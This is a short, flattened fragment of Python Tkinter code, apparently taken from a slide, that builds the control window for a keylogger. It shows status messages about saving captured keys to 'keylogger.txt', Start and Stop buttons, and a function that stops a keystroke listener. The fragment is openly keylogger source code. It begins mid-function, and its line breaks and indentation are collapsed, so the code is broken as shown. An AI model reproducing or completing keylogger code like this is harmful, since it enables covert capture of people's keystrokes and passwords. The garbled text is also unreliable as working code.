

# label.config(text="[+] Keylogger is running!\n[!] Saving the keys in 'keylogger.txt'") start_button.config(state='disabled') stop_button.config(state='normal') def stop_keylogger(): global listener listener.stop() label.config(text="Keylogger stopped.") start_button.config(state='normal') stop_button.config(state='disabled') root = Tk() root.title("Keylogger") label = Label(root, text='Click "Start" to begin keylogging.') label.config(anchor=CENTER) label.pack()